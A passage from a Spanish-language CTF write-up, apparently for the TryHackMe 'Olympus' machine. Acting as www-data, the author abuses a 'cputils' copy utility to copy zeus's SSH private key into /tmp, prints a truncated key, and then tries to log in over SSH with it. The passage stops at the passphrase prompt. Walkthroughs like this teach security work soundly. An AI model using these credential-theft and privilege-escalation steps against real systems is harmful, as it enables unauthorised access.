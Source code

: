 ```console
[...]
# el fichero en su ubicación original
www-data@olympus:/home/zeus$ ls -la
[...]
-r--r--r-- 1 zeus zeus  199 Apr 15 07:28 zeus.txt
www-data@olympus:/home/zeus$ 

# el fichero copiado a /tmp
www-data@olympus:/home/zeus$ ls -la /tmp/copia_zeus.txt
[...]
-rw-rw-rw- 1 zeus www-data 199 Aug  6 19:17 /tmp/copia_zeus.txt
www-data@olympus:/home/zeus$ 
```
Y si utilizamos esto para copiar la clave privada ssh ?

```console
[...]
www-data@olympus:/home/zeus$ cputils
cputils
  ____ ____        _   _ _     
 / ___|  _ \ _   _| |_(_) |___ 
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/
                               
Enter the Name of Source File: .ssh/id_rsa
.ssh/id_rsa

Enter the Name of Target File: /tmp/zeus_id_rsa
/tmp/zeus_id_rsa

File copied successfully.
www-data@olympus:/home/zeus$ ls -la /tmp/zeus_id_rsa
ls -la /tmp/zeus_id_rsa
-rw-rw-rw- 1 zeus www-data 2655 Aug  6 19:49 /tmp/zeus_id_rsa
www-data@olympus:/home/zeus$ cat /tmp/zeus_id_rsa
cat /tmp/zeus_id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABALr+COV2
NabdkfRp238WfMAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQChujddUX2i
WQ+J7n+PX6sXM/MA+foZIveqbr+v40RbqBY2XFa3OZ01EeTbkZ/g/Rqt0Sqlm1N38CUii2
[...]
-----END OPENSSH PRIVATE KEY-----
www-data@olympus:/home/zeus$ 
```

OK. Copiamos la clave desde el terminal a un fichero en local y lo guardamos en nuestro directorio de trabajo como *zeus_id_rsa*. Probamos a conectarnos con el server via ssh utilizando esta clave.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sudo ssh -i zeus_id_rsa zeus@10.10.129.191
[sudo] password for ewan67: 
The authenticity of host '10.10.129.191 (10.10.129.191)' can't be established.
ED25519 key fingerprint is SHA256:XbXc3bAs1IiavZWj9IgVFZORm5vh2hzeSuStvOcjhcI.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.129.191' (ED25519) to the list of known hosts.
Enter passphrase for key 'zeus_id_rsa': 
```
